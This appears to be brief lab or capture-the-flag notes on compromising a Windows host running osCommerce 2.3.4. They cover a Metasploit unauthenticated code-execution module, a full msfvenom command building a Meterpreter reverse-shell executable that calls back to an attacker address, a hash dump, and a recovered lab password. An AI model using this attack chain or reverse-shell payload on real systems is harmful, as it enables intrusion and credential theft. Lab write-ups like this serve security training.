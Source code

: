 ### Enumeration
- PHP application `oscommerce-2.3.4`
	- https://www.exploit-db.com/exploits/44374
### Metasploit
- `exploit/multi/http/oscommerce_installer_unauth_code_exec`
- gain shell as php app user
### PrivEsc
- create meterpreter revshell executable with msfvenom
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.2.25.82 LPORT=4443 -f exe > definitelynotabackdoor.exe`
- upload executable to target via previously established shell
- run metasploit listener `windows/meterpreter/reverse_tcp`
- gain shell and hashdump
- password for `Lab:googleplus`